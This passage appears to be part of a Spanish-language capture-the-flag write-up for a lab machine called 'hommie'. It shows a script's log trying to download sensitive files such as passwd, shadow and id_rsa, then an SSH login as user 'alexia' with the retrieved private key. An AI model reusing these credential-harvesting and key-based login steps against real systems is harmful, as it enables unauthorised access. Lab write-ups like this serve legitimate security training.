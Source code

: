 Info:

```
[+] Intentando descargar: user.txt
    [✗] Timeout: user.txt tardó demasiado (posible archivo inexistente).
[+] Intentando descargar: root.txt
    [✗] Timeout: root.txt tardó demasiado (posible archivo inexistente).
[+] Intentando descargar: hosts
    [✗] Timeout: hosts tardó demasiado (posible archivo inexistente).
[+] Intentando descargar: config.txt
    [✗] Timeout: config.txt tardó demasiado (posible archivo inexistente).
[+] Intentando descargar: backup.conf
    [✗] Timeout: backup.conf tardó demasiado (posible archivo inexistente).
[+] Intentando descargar: index.html
    [✗] Timeout: index.html tardó demasiado (posible archivo inexistente).
[+] Intentando descargar: robots.txt
    [✗] Timeout: robots.txt tardó demasiado (posible archivo inexistente).
[+] Intentando descargar: passwd
    [✗] Timeout: passwd tardó demasiado (posible archivo inexistente).
[+] Intentando descargar: shadow
    [✗] Timeout: shadow tardó demasiado (posible archivo inexistente).
[+] Intentando descargar: startup-config
    [✗] Timeout: startup-config tardó demasiado (posible archivo inexistente).
[+] Intentando descargar: network.conf
    [✗] Timeout: network.conf tardó demasiado (posible archivo inexistente).
[+] Intentando descargar: id_rsa
    [✓] id_rsa descargado.
[+] Intentando descargar: id_rsa.pub
    [✗] Timeout: id_rsa.pub tardó demasiado (posible archivo inexistente).
[+] Intentando descargar: .bashrc
    [✗] Timeout: .bashrc tardó demasiado (posible archivo inexistente).
```

Vemos que el unico que funciono es el de `id_rsa`, por lo que vamos a probar dicha clave con el usuario `alexia` ya que comenta en la pagina que es su `id_rsa`.

## Escalate user alexia

### SSH

Establecemos los permisos necesarios para la clave `PEM`:

```shell
chmod 600 id_rsa
```

Ahora si vamos a probar a conectarnos por `SSH`:

```shell
ssh -i id_rsa alexia@<IP>
```

Info:

```
The authenticity of host '192.168.28.20 (192.168.28.20)' can't be established.
ED25519 key fingerprint is SHA256:v3AMNdrxbep3tZ0By0ik1/V+ZHj5ZuiffVZSnafj2YA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.28.20' (ED25519) to the list of known hosts.
Linux hommie 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```